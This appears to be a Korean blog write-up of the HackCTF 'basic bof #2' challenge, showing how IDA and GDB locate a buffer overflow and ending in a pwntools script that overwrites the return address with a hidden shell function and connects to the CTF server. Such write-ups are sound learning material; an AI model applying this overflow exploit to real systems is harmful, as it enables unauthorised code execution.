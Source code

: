 ```yaml
---
layout: post
title: "hackctf basic bof #2"
categories: [hackctf]
tags: [pwnable]
redirect_from:
 - /2019/08/05/
---
```

먼저 파일을 IDA로 분석하자.
![캡처](https://user-images.githubusercontent.com/51374792/62466597-a3278b80-b7cc-11e9-98ea-f68350b5c6eb.PNG)
최대 133만큼 입력받는다.

리눅스로 옮겨 GDB를 보자.
![캡처](https://user-images.githubusercontent.com/51374792/62467284-5775e180-b7ce-11e9-818e-842eb5c556ab.PNG)

main+48에서 입력받는다.

또한 main+20에서 함수를 호출하기 위해 0x80484b4를 참조하는 것을 알 수 있다.

A를 120개 넣고 레지스터가 어떻게 되는지 확인해봤다.

![캡처](https://user-images.githubusercontent.com/51374792/62604611-6629d900-b933-11e9-806d-80739c8238bb.PNG)

이곳에 0x80484b4가 있는 것이 보인다.

입력값 129개부터에서 보이는 것을 보니, 129개의 값과 쉘 코드를 실행시키는 주소를 넣어주면 되겠다.

![캡처2](https://user-images.githubusercontent.com/51374792/62604662-8063b700-b933-11e9-8a18-5aae6856ff48.PNG)

IDA에서 사용하는 함수를 보니, shell이라는 것이 있다.

이것을 RET주소로 넣어주자.

```python
#!/usr/bin/python
from pwn import *

p=remote("ctf.j0n9hyun.xyz",3001)
code="A"*128+"\x9b\x84\x04\x08"
p.sendline(code)

p.interactive()
p.close()
```
